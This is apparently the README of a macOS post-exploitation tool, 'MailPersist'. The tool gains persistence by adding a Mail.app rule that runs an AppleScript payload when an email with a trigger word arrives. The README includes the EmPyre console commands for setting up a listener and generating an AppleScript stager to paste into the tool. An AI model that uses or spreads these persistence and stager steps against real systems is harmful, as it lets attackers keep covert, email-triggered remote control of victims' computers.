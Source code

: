 # MailPersist - Post Exploitation script for MacOS persistance 

## ABOUT:
This script creates a new rule in the MacOS Mail application to automatically trigger an appleScript payload when an email is recieved using a trigger word.

## INSTALL:
```
All dependancies are met on a default installation of MacOS.  With that said, you will likely want to use EmPyre
https://github.com/adaptivethreat/EmPyre
to create your appleScript payload. 
```

## USAGE:
Creating an appleScript payload with Empyre:
```
(EmPyre) > listeners
(EmPyre: listeners) > set Name mylistener
(EmPyre: listeners) > execute
(EmPyre: listeners) > usestager applescript mylistener
(EmPyre: stager/applescript) > execute
```
open mail.py and paste the output in the specified area.  Modify the trigger word as you see fit.  
